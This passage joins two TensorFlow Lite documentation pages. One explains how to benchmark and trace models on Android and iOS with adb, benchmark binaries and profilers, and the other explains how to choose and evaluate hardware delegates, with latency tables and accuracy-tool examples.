<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_eval_inference_diff">inference_diff</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_eval_imagenet_image_classification">imagenet_image_classification_eval</a>
<li><a href="https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_eval_coco_object_detection">coco_object_detection_eval</a></li></ul>

   </td>
  </tr>
</table>
# Performance measurement

## Benchmark tools

TensorFlow Lite benchmark tools currently measure and calculate statistics for
the following important performance metrics:

*   Initialization time
*   Inference time of warmup state
*   Inference time of steady state
*   Memory usage during initialization time
*   Overall memory usage

The benchmark tools are available as benchmark apps for Android and iOS and as
native command-line binaries, and they all share the same core performance
measurement logic. Note that the available options and output formats are
slightly different due to the differences in runtime environment.

### Android benchmark app

There are two options of using the benchmark tool with Android. One is a
[native benchmark binary](#native-benchmark-binary) and another is an Android
benchmark app, a better gauge of how the model would perform in the app. Either
way, the numbers from the benchmark tool will still differ slightly from when
running inference with the model in the actual app.

This Android benchmark app has no UI. Install and run it by using the `adb`
command and retrieve results by using the `adb logcat` command.

#### Download or build the app

Download the nightly pre-built Android benchmark apps using the links below:

*   [android_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model.apk)
*   [android_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_benchmark_model.apk)

As for Android benchmark apps that support [TF ops](https://www.tensorflow.org/lite/guide/ops_select)
via [Flex delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/flex),
use the links below:

*   [android_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model_plus_flex.apk)
*   [android_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_benchmark_model_plus_flex.apk)


You can also build the app from source by following these
[instructions](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/android).

Note: It is required to build the app from the source if you want to run the
Android benchmark apk on x86 CPU or Hexagon delegate or if your model contains
[select TF operators](../guide/ops_select) or
[custom operators](../guide/ops_custom).

#### Prepare benchmark

Before running the benchmark app, install the app and push the model file to the
device as follows:

```shell
adb install -r -d -g android_aarch64_benchmark_model.apk
adb push your_model.tflite /data/local/tmp
```

#### Run benchmark

```shell
adb shell am start -S \
  -n org.tensorflow.lite.benchmark/.BenchmarkModelActivity \
  --es args '"--graph=/data/local/tmp/your_model.tflite \
              --num_threads=4"'
```

`graph` is a required parameter.

*   `graph`: `string` \
    The path to the TFLite model file.

You can specify more optional parameters for running the benchmark.

*   `num_threads`: `int` (default=1) \
    The number of threads to use for running TFLite interpreter.
*   `use_gpu`: `bool` (default=false) \
    Use [GPU delegate](gpu).
*   `use_nnapi`: `bool` (default=false) \
    Use [NNAPI delegate](nnapi).
*   `use_xnnpack`: `bool` (default=`false`) \
    Use
    [XNNPACK delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/xnnpack).
*   `use_hexagon`: `bool` (default=`false`) \
    Use [Hexagon delegate](hexagon_delegate).

Depending on the device you are using, some of these options may not be
available or have no effect. Refer to
[parameters](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark#parameters)
for more performance parameters that you could run with the benchmark app.

View the results using the `logcat` command:

```shell
adb logcat | grep "Average inference"
```

The benchmark results are reported as:

```
... tflite  : Average inference timings in us: Warmup: 91471, Init: 4108, Inference: 80660.1
```

### Native benchmark binary

Benchmark tool is also provided as a native binary `benchmark_model`. You can
execute this tool from a shell command line on Linux, Mac, embedded devices and
Android devices.

#### Download or build the binary

Download the nightly pre-built native command-line binaries by following the
links below:

*   [linux_x86-64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_x86-64_benchmark_model)
*   [linux_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_aarch64_benchmark_model)
*   [linux_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_arm_benchmark_model)
*   [android_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model)
*   [android_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_benchmark_model)

As for nightly pre-built binaries that support [TF ops](https://www.tensorflow.org/lite/guide/ops_select)
via [Flex delegate](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/flex),
use the links below:

*   [linux_x86-64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_x86-64_benchmark_model_plus_flex)
*   [linux_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_aarch64_benchmark_model_plus_flex)
*   [linux_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_arm_benchmark_model_plus_flex)
*   [android_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model_plus_flex)
*   [android_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_benchmark_model_plus_flex)

To benchmark with [TensorFlow Lite Hexagon delegate](https://www.tensorflow.org/lite/performance/hexagon_delegate),
we have also pre-built the required `libhexagon_interface.so` files (see [here](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/hexagon/README.md)
for details about this file). After downloading the file of the corresponding
platform from the links below, please rename the file to `libhexagon_interface.so`.

*   [android_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_libhexagon_interface.so)
*   [android_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_libhexagon_interface.so)

You can also build the native benchmark binary from
[source](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark)
on your computer.

```shell
bazel build -c opt //tensorflow/lite/tools/benchmark:benchmark_model
```

To build with Android NDK toolchain, you need to set up the build environment
first by following this
[guide](../guide/build_android#set_up_build_environment_without_docker), or use
the docker image as described in this
[guide](../guide/build_android#set_up_build_environment_using_docker).

```shell
bazel build -c opt --config=android_arm64 \
  //tensorflow/lite/tools/benchmark:benchmark_model
```

Note: It is a valid approach to push and execute binaries directly on an Android
device for benchmarking, but it can result in subtle (but observable)
differences in performance relative to execution within an actual Android app.
In particular, Android's scheduler tailors behavior based on thread and process
priorities, which differ between a foreground Activity/Application and a regular
background binary executed via `adb shell ...`. This tailored behavior is most
evident when enabling multi-threaded CPU execution with TensorFlow Lite.
Therefore, the Android benchmark app is preferred for performance measurement.

#### Run benchmark

To run benchmarks on your computer, execute the binary from the shell.

```shell
path/to/downloaded_or_built/benchmark_model \
  --graph=your_model.tflite \
  --num_threads=4
```

You can use the same set of
[parameters](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark#parameters)
as mentioned above with the native command-line binary.

#### Profiling model ops

The benchmark model binary also allows you to profile model ops and get the
execution times of each operator. To do this, pass the flag
`--enable_op_profiling=true` to `benchmark_model` during invocation. Details are
explained
[here](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark#profiling-model-operators).

### Native benchmark binary for multiple performance options in a single run

A convenient and simple C++ binary is also provided to
[benchmark multiple performance options](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark#benchmark-multiple-performance-options-in-a-single-run)
in a single run. This binary is built based on the aforementioned benchmark tool
that could only benchmark a single performance option at a time. They share the
same build/install/run process, but the BUILD target name of this binary is
`benchmark_model_performance_options` and it takes some additional parameters.
An important parameter for this binary is:

`perf_options_list`: `string` (default='all') \
A comma-separated list of TFLite performance options to benchmark.

You can get nightly pre-built binaries for this tool as listed below:

*   [linux_x86-64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_x86-64_benchmark_model_performance_options)
*   [linux_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_aarch64_benchmark_model_performance_options)
*   [linux_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/linux_arm_benchmark_model_performance_options)
*   [android_aarch64](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model_performance_options)
*   [android_arm](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_arm_benchmark_model_performance_options)

### iOS benchmark app

To run benchmarks on iOS device, you need to build the app from
[source](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/ios).
Put the TensorFlow Lite model file in the
[benchmark_data](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/ios/TFLiteBenchmark/TFLiteBenchmark/benchmark_data)
directory of the source tree and modify the `benchmark_params.json` file. Those
files are packaged into the app and the app reads data from the directory. Visit
the
[iOS benchmark app](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/ios)
for detailed instructions.

## Performance benchmarks for well known models

This section lists TensorFlow Lite performance benchmarks when running well
known models on some Android and iOS devices.

### Android performance benchmarks

These performance benchmark numbers were generated with the
[native benchmark binary](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark).

For Android benchmarks, the CPU affinity is set to use big cores on the device
to reduce variance (see
[details](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark#reducing-variance-between-runs-on-android)).

It assumes that models were downloaded and unzipped to the
`/data/local/tmp/tflite_models` directory. The benchmark binary is built using
[these instructions](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark#on-android)
and assumed to be in the `/data/local/tmp` directory.

To run the benchmark:

```sh
adb shell /data/local/tmp/benchmark_model \
  --num_threads=4 \
  --graph=/data/local/tmp/tflite_models/${GRAPH} \
  --warmup_runs=1 \
  --num_runs=50
```

To run with nnapi delegate, set `--use_nnapi=true`. To run with GPU delegate,
set `--use_gpu=true`.

The performance values below are measured on Android 10.

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Device </th>
      <th>CPU, 4 threads</th>
      <th>GPU</th>
      <th>NNAPI</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 2>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_224.tgz">Mobilenet_1.0_224(float)</a>
    </td>
    <td>Pixel 3 </td>
    <td>23.9 ms</td>
    <td>6.45 ms</td>
    <td>13.8 ms</td>
  </tr>
   <tr>
     <td>Pixel 4 </td>
    <td>14.0 ms</td>
    <td>9.0 ms</td>
    <td>14.8 ms</td>
  </tr>
  <tr>
    <td rowspan = 2>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_224_quant.tgz">Mobilenet_1.0_224 (quant)</a>
    </td>
    <td>Pixel 3 </td>
    <td>13.4 ms</td>
    <td>--- </td>
    <td>6.0 ms</td>
  </tr>
   <tr>
     <td>Pixel 4 </td>
    <td>5.0 ms</td>
    <td>--- </td>
    <td>3.2 ms</td>
  </tr>
  <tr>
    <td rowspan = 2>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/nasnet_mobile_2018_04_27.tgz">NASNet mobile</a>
    </td>
    <td>Pixel 3 </td>
    <td>56 ms</td>
    <td>--- </td>
    <td>102 ms</td>
  </tr>
   <tr>
     <td>Pixel 4 </td>
    <td>34.5 ms</td>
    <td>--- </td>
    <td>99.0 ms</td>
  </tr>
  <tr>
    <td rowspan = 2>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/squeezenet_2018_04_27.tgz">SqueezeNet</a>
    </td>
    <td>Pixel 3 </td>
    <td>35.8 ms</td>
    <td>9.5 ms </td>
    <td>18.5 ms</td>
  </tr>
   <tr>
     <td>Pixel 4 </td>
    <td>23.9 ms</td>
    <td>11.1 ms</td>
    <td>19.0 ms</td>
  </tr>
  <tr>
    <td rowspan = 2>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/inception_resnet_v2_2018_04_27.tgz">Inception_ResNet_V2</a>
    </td>
    <td>Pixel 3 </td>
    <td>422 ms</td>
    <td>99.8 ms </td>
    <td>201 ms</td>
  </tr>
   <tr>
     <td>Pixel 4 </td>
    <td>272.6 ms</td>
    <td>87.2 ms</td>
    <td>171.1 ms</td>
  </tr>
  <tr>
    <td rowspan = 2>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/inception_v4_2018_04_27.tgz">Inception_V4</a>
    </td>
    <td>Pixel 3 </td>
    <td>486 ms</td>
    <td>93 ms </td>
    <td>292 ms</td>
  </tr>
   <tr>
     <td>Pixel 4 </td>
    <td>324.1 ms</td>
    <td>97.6 ms</td>
    <td>186.9 ms</td>
  </tr>

 </table>

### iOS performance benchmarks

These performance benchmark numbers were generated with the
[iOS benchmark app](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/ios).

To run iOS benchmarks, the benchmark app was modified to include the appropriate
model and `benchmark_params.json` was modified to set `num_threads` to 2. To use
the GPU delegate, `"use_gpu" : "1"` and `"gpu_wait_type" : "aggressive"` options
were also added to `benchmark_params.json`.

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Device </th>
      <th>CPU, 2 threads</th>
      <th>GPU</th>
    </tr>
  </thead>
  <tr>
    <td>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_224.tgz">Mobilenet_1.0_224(float)</a>
    </td>
    <td>iPhone XS </td>
    <td>14.8 ms</td>
    <td>3.4 ms</td>
  </tr>
  <tr>
    <td>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_224_quant.tgz)">Mobilenet_1.0_224 (quant)</a>
    </td>
    <td>iPhone XS </td>
    <td>11 ms</td>
    <td>---</td>
  </tr>
  <tr>
    <td>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/nasnet_mobile_2018_04_27.tgz">NASNet mobile</a>
    </td>
    <td>iPhone XS </td>
    <td>30.4 ms</td>
    <td>---</td>
  </tr>
  <tr>
    <td>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/squeezenet_2018_04_27.tgz">SqueezeNet</a>
    </td>
    <td>iPhone XS </td>
    <td>21.1 ms</td>
    <td>15.5 ms</td>
  </tr>
  <tr>
    <td>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/inception_resnet_v2_2018_04_27.tgz">Inception_ResNet_V2</a>
    </td>
    <td>iPhone XS </td>
    <td>261.1 ms</td>
    <td>45.7 ms</td>
  </tr>
  <tr>
    <td>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/inception_v4_2018_04_27.tgz">Inception_V4</a>
    </td>
    <td>iPhone XS </td>
    <td>309 ms</td>
    <td>54.4 ms</td>
  </tr>
 </table>

## Trace TensorFlow Lite internals

### Trace TensorFlow Lite internals in Android

Note: This feature is available from Tensorflow Lite v2.4.

Internal events from the TensorFlow Lite interpreter of an Android app can be
captured by
[Android tracing tools](https://developer.android.com/topic/performance/tracing).
They are the same events with Android
[Trace](https://developer.android.com/reference/android/os/Trace) API, so the
captured events from Java/Kotlin code are seen together with TensorFlow Lite
internal events.

Some examples of events are:

*   Operator invocation
*   Graph modification by delegate
*   Tensor allocation

Among different options for capturing traces, this guide covers the Android
Studio CPU Profiler and the System Tracing app. Refer to
[Perfetto command-line tool](https://developer.android.com/studio/command-line/perfetto)
or
[Systrace command-line tool](https://developer.android.com/topic/performance/tracing/command-line)
for other options.

#### Adding trace events in Java code

This is a code snippet from the
[Image Classification](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android)
example app. TensorFlow Lite interpreter runs in the
`recognizeImage/runInference` section. This step is optional but it is useful to
help notice where the inference call is made.

```java
  Trace.beginSection("recognizeImage");
  ...
  // Runs the inference call.
  Trace.beginSection("runInference");
  tflite.run(inputImageBuffer.getBuffer(), outputProbabilityBuffer.getBuffer().rewind());
  Trace.endSection();
  ...
  Trace.endSection();

```

#### Enable TensorFlow Lite tracing

To enable TensorFlow Lite tracing, set the Android system property
`debug.tflite.trace` to 1 before starting the Android app.

```shell
adb shell setprop debug.tflite.trace 1
```

If this property has been set when TensorFlow Lite interpreter is initialized,
key events (e.g., operator invocation) from the interpreter will be traced.

After you captured all the traces, disable tracing by setting the property value
to 0.

```shell
adb shell setprop debug.tflite.trace 0
```

#### Android Studio CPU Profiler

Capture traces with the
[Android Studio CPU Profiler](https://developer.android.com/studio/profile/cpu-profiler)
by following the steps below:

1.  Select **Run > Profile 'app'** from the top menus.

2.  Click anywhere in CPU timeline when the Profiler window appears.

3.  Select 'Trace System Calls' among CPU Profiling modes.

    

4.  Press 'Record' button.

5.  Press 'Stop' button.

6.  Investigate the trace result.

    

In this example, you can see the hierarchy of events in a thread and statistics
for each operator time and also see the data flow of the whole app among
threads.

#### System Tracing app

Capture traces without Android Studio by following the steps detailed in
[System Tracing app](https://developer.android.com/topic/performance/tracing/on-device).

In this example, the same TFLite events were captured and saved to the Perfetto
or Systrace format depending on the version of Android device. The captured
trace files can be opened in the [Perfetto UI](https://ui.perfetto.dev/#!/).


### Trace TensorFlow Lite internals in iOS

Note: This feature is available from Tensorflow Lite v2.5.

Internal events from the TensorFlow Lite interpreter of an iOS app can be
captured by
[Instruments](https://developer.apple.com/library/archive/documentation/ToolsLanguages/Conceptual/Xcode_Overview/MeasuringPerformance.html#//apple_ref/doc/uid/TP40010215-CH60-SW1)
tool included with Xcode. They are the iOS
[signpost](https://developer.apple.com/documentation/os/logging/recording_performance_data)
events, so the captured events from Swift/Objective-C code are seen together
with TensorFlow Lite internal events.

Some examples of events are:

*   Operator invocation
*   Graph modification by delegate
*   Tensor allocation

#### Enable TensorFlow Lite tracing

Set the environment variable `debug.tflite.trace` by following the steps below:

1.  Select **Product > Scheme > Edit Scheme...** from the top menus of Xcode.

2.  Click 'Profile' in the left pane.

3.  Deselect 'Use the Run action's arguments and environment variables'
    checkbox.

4.  Add `debug.tflite.trace` under 'Environment Variables' section.

    

If you want to exclude TensorFlow Lite events when profiling the iOS app,
disable tracing by removing the environment variable.

#### XCode Instruments

Capture traces by following the steps below:

1.  Select **Product > Profile** from the top menus of Xcode.

2.  Click **Logging** among profiling templates when Instruments tool launches.

3.  Press 'Start' button.

4.  Press 'Stop' button.

5.  Click 'os_signpost' to expand OS Logging subsystem items.

6.  Click 'org.tensorflow.lite' OS Logging subsystem.

7.  Investigate the trace result.

    

In this example, you can see the hierarchy of events and statistics for each
operator time.

### Using the tracing data

The tracing data allows you to identify performance bottlenecks.

Here are some examples of insights that you can get from the profiler and
potential solutions to improve performance:

*   If the number of available CPU cores is smaller than the number of inference
    threads, then the CPU scheduling overhead can lead to subpar performance.
    You can reschedule other CPU intensive tasks in your application to avoid
    overlapping with your model inference or tweak the number of interpreter
    threads.
*   If the operators are not fully delegated, then some parts of the model graph
    are executed on the CPU rather than the expected hardware accelerator. You
    can substitute the unsupported operators with similar supported operators.
# TensorFlow Lite Delegates

## Introduction

**Delegates** enable hardware acceleration of TensorFlow Lite models by
leveraging on-device accelerators such as the GPU and
[Digital Signal Processor (DSP)](https://en.wikipedia.org/wiki/Digital_signal_processor).

By default, TensorFlow Lite utilizes CPU kernels that are optimized for the
[ARM Neon](https://developer.arm.com/documentation/dht0002/a/Introducing-NEON/NEON-architecture-overview/NEON-instructions)
instruction set. However, the CPU is a multi-purpose processor that isn't
necessarily optimized for the heavy arithmetic typically found in Machine
Learning models (for example, the matrix math involved in convolution and dense
layers).

On the other hand, most modern mobile phones contain chips that are better at
handling these heavy operations. Utilizing them for neural network operations
provides huge benefits in terms of latency and power efficiency. For example,
GPUs can provide upto a
[5x speedup](https://blog.tensorflow.org/2020/08/faster-mobile-gpu-inference-with-opencl.html)
in latency, while the
[Qualcomm® Hexagon DSP](https://developer.qualcomm.com/software/hexagon-dsp-sdk/dsp-processor)
has shown to reduce power consumption upto 75% in our experiments.

Each of these accelerators have associated APIs that enable custom computations,
such as [OpenCL](https://www.khronos.org/opencl/) or
[OpenGL ES](https://www.khronos.org/opengles/) for mobile GPU and the
[Qualcomm® Hexagon SDK](https://developer.qualcomm.com/software/hexagon-dsp-sdk)
for DSP. Typically, you would have to write a lot of custom code to run a neural
network through these interfaces. Things get even more complicated when you
consider that each accelerator has its pros & cons and cannot execute every
operation in a neural network. TensorFlow Lite's Delegate API solves this
problem by acting as a bridge between the TFLite runtime and these lower-level
APIs.


## Choosing a Delegate

TensorFlow Lite supports multiple delegates, each of which is optimized for
certain platform(s) and particular types of models. Usually, there will be
multiple delegates applicable to your use-case, depending on two major criteria:
the *Platform* (Android or iOS?) you target, and the *Model-type*
(floating-point or quantized?) that you are trying to accelerate.

### Delegates by Platform

#### Cross-platform (Android & iOS)

*   **GPU delegate** - The GPU delegate can be used on both Android and iOS. It
    is optimized to run 32-bit and 16-bit float based models where a GPU is
    available. It also supports 8-bit quantized models and provides GPU
    performance on par with their float versions. For details on the GPU
    delegate, see [TensorFlow Lite on GPU](gpu_advanced.md). For step-by-step
    tutorials on using the GPU delegate with Android and iOS, see
    [TensorFlow Lite GPU Delegate Tutorial](gpu.md).

#### Android

*   **NNAPI delegate for newer Android devices** - The NNAPI delegate can be
    used to accelerate models on Android devices with GPU, DSP and / or NPU
    available. It is available in Android 8.1 (API 27+) or higher. For an
    overview of the NNAPI delegate, step-by-step instructions and best
    practices, see [TensorFlow Lite NNAPI delegate](nnapi.md).
*   **Hexagon delegate for older Android devices** - The Hexagon delegate can be
    used to accelerate models on Android devices with Qualcomm Hexagon DSP. It
    can be used on devices running older versions of Android that do not support
    NNAPI. See [TensorFlow Lite Hexagon delegate](hexagon_delegate.md) for more
    detail.

#### iOS

*   **Core ML delegate for newer iPhones and iPads** - For newer iPhones and
    iPads where Neural Engine is available, you can use Core ML delegate to
    accelerate inference for 32-bit or 16-bit floating-point models. Neural
    Engine is available Apple mobile devices with A12 SoC or higher. For an
    overview of the Core ML delegate and step-by-step instructions, see
    [TensorFlow Lite Core ML delegate](coreml_delegate.md).

### Delegates by model type

Each accelerator is designed with a certain bit-width of data in mind. If you
provide a floating-point model to a delegate that only supports 8-bit quantized
operations (such as the [Hexagon delegate](hexagon_delegate.md)), it will reject
all its operations and the model will run entirely on the CPU. To avoid such
surprises, the table below provides an overview of delegate support based on
model type:

**Model Type**                                                                                          | **GPU** | **NNAPI** | **Hexagon** | **CoreML**
------------------------------------------------------------------------------------------------------- | ------- | --------- | ----------- | ----------
Floating-point (32 bit)                                                                                 | Yes     | Yes       | No          | Yes
[Post-training float16 quantization](post_training_float16_quant.ipynb)                                 | Yes     | No        | No          | Yes
[Post-training dynamic range quantization](post_training_quant.ipynb)                                   | Yes     | Yes       | No          | No
[Post-training integer quantization](post_training_integer_quant.ipynb)                                 | Yes     | Yes       | Yes         | No
[Quantization-aware training](http://www.tensorflow.org/model_optimization/guide/quantization/training) | Yes     | Yes       | Yes         | No

### Validating performance

The information in this section acts as a rough guideline for shortlisting the
delegates that could improve your application. However, it is important to note
that each delegate has a pre-defined set of operations it supports, and may
perform differently depending on the model and device; for example, the
[NNAPI delegate](nnapi.md) may choose to use Google's Edge-TPU on a Pixel phone
while utilizing a DSP on another device. Therefore, it is usually recommended
that you perform some benchmarking to gauge how useful a delegate is for your
needs. This also helps justify the binary size increase associated with
attaching a delegate to the TensorFlow Lite runtime.

TensorFlow Lite has extensive performance and accuracy-evaluation tooling that
can empower developers to be confident in using delegates in their application.
These tools are discussed in the next section.

## Tools for Evaluation

### Latency & memory footprint

TensorFlow Lite’s
[benchmark tool](https://www.tensorflow.org/lite/performance/measurement) can be
used with suitable parameters to estimate model performance, including average
inference latency, initialization overhead, memory footprint, etc. This tool
supports multiple flags to figure out the best delegate configuration for your
model. For instance, `--gpu_backend=gl` can be specified with `--use_gpu` to
measure GPU execution with OpenGL. The complete list of supported delegate
parameters is defined in the
[detailed documentation](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/delegates/README.md#tflite-delegate-registrar).

Here’s an example run for a quantized model with GPU via `adb`:

```
adb shell /data/local/tmp/benchmark_model \
  --graph=/data/local/tmp/mobilenet_v1_224_quant.tflite \
  --use_gpu=true
```

You can download pre-built version of this tool for Android, 64-bit ARM
architecture
[here](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_benchmark_model.apk)
([more details](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark/android)).

### Accuracy & correctness

Delegates usually perform computations at a different precision than their CPU
counterparts. As a result, there is an (usually minor) accuracy tradeoff
associated with utilizing a delegate for hardware acceleration. Note that this
isn't *always* true; for example, since the GPU uses floating-point precision to
run quantized models, there might be a slight precision improvement (for e.g.,
<1% Top-5 improvement in ILSVRC image classification).

TensorFlow Lite has two types of tooling to measure how accurately a delegate
behaves for a given model: *Task-Based* and *Task-Agnostic*. All the tools
described in this section support the
[advanced delegation parameters](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/delegates/README.md#tflite-delegate-registrar)
used by the benchmarking tool from the previous section. Note that the
sub-sections below focus on *delegate evaluation* (Does the delegate perform the
same as the CPU?) rather than model evaluation (Is the model itself good for the
task?).

#### Task-Based Evaluation

TensorFlow Lite has tools to evaluate correctness on two image-based tasks:

*   [ILSVRC 2012](http://image-net.org/challenges/LSVRC/2012/) (Image
    Classification) with
    [top-K accuracy](https://en.wikipedia.org/wiki/Evaluation_measures_\(information_retrieval\)#Precision_at_K)

*   [COCO Object Detection (w/ bounding boxes)](https://cocodataset.org/#detection-2020)
    with
    [mean Average Precision (mAP)](https://en.wikipedia.org/wiki/Evaluation_measures_\(information_retrieval\)#Mean_average_precision)

Prebuilt binaries of these tools (Android, 64-bit ARM architecture), along with
documentation can be found here:

*   [ImageNet Image Classification](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_eval_imagenet_image_classification)
    ([More details](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification))
*   [COCO Object Detection](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_eval_coco_object_detection)
    ([More details](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/coco_object_detection))

The example below demonstrates
[image classification evaluation](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification)
with NNAPI utilizing Google's Edge-TPU on a Pixel 4:

```
adb shell /data/local/tmp/run_eval \
  --model_file=/data/local/tmp/mobilenet_quant_v1_224.tflite \
  --ground_truth_images_path=/data/local/tmp/ilsvrc_images \
  --ground_truth_labels=/data/local/tmp/ilsvrc_validation_labels.txt \
  --model_output_labels=/data/local/tmp/model_output_labels.txt \
  --output_file_path=/data/local/tmp/accuracy_output.txt \
  --num_images=0 # Run on all images. \
  --use_nnapi=true \
  --nnapi_accelerator_name=google-edgetpu
```

The expected output is a list of Top-K metrics from 1 to 10:

```
Top-1 Accuracy: 0.733333
Top-2 Accuracy: 0.826667
Top-3 Accuracy: 0.856667
Top-4 Accuracy: 0.87
Top-5 Accuracy: 0.89
Top-6 Accuracy: 0.903333
Top-7 Accuracy: 0.906667
Top-8 Accuracy: 0.913333
Top-9 Accuracy: 0.92
Top-10 Accuracy: 0.923333
```

#### Task-Agnostic Evaluation

For tasks where there isn't an established on-device evaluation tool, or if you
are experimenting with custom models, TensorFlow Lite has the
[Inference Diff](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/inference_diff)
tool. (Android, 64-bit ARM binary architecture binary
[here](https://storage.googleapis.com/tensorflow-nightly-public/prod/tensorflow/release/lite/tools/nightly/latest/android_aarch64_eval_inference_diff))

Inference Diff compares TensorFlow Lite execution (in terms of latency &
output-value deviation) in two settings:

*   Single-threaded CPU Inference
*   User-defined Inference - defined by
    [these parameters](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/delegates/README.md#tflite-delegate-registrar)

To do so, the tool generates random Gaussian data and passes it through two
TFLite Interpreters - one running single-threaded CPU kernels, and the other
parameterized by the user's arguments.

It measures the latency of both, as well as the absolute difference between the
output tensors from each Interpreter, on a per-element basis.

For a model with a single output tensor, the output might look like this:

```
Num evaluation runs: 50
Reference run latency: avg=84364.2(us), std_dev=12525(us)
Test run latency: avg=7281.64(us), std_dev=2089(us)
OutputDiff[0]: avg_error=1.96277e-05, std_dev=6.95767e-06
```

What this means is that for the output tensor at index `0`, the elements from
the CPU output different from the delegate output by an average of `1.96e-05`.

Note that interpreting these numbers requires deeper knowledge of the model, and
